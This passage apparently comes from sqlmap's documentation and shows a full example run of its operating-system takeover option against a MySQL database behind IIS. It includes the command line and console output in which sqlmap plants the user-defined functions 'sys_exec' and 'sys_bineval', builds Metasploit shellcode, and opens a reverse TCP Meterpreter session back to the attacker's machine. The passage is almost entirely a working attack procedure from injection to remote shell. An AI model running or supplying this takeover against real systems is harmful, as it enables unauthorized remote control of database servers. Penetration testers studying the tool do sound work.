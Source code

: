 Example against a MySQL target:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
```